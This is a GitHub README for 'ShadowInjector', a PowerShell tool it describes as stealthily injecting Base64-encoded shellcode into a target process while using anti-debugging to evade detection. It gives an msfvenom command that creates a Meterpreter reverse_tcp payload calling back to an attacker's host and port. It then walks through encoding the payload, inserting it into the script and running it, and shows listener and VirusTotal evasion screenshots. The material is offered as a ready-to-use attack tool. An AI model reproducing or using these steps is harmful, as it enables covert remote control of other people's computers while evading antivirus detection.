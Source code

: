 # ShadowInjector
A sophisticated PowerShell script that stealthily injects Base64-encoded shellcode into the target process, featuring anti-debugging techniques to evade detection.



## Running the Script
You can create the malicious payload as follows.

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=local_ip LPORT=local_port -f csharp

![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/Creating%20a%20payload.png)

Perform the encode process by pasting the created shellcode into the "# shellcode will be written here" section.
![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/shellcode_encode.png)

Add the base64 encoded payload to the "add_shell_code_here" section of the script.

To run the script, open a PowerShell window and execute the following command:

.\ShadowInjector.ps1
![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/Run%20Script.png)

![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/Listening.png)

## Virustotal Result
![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/virustotal%20result.png)


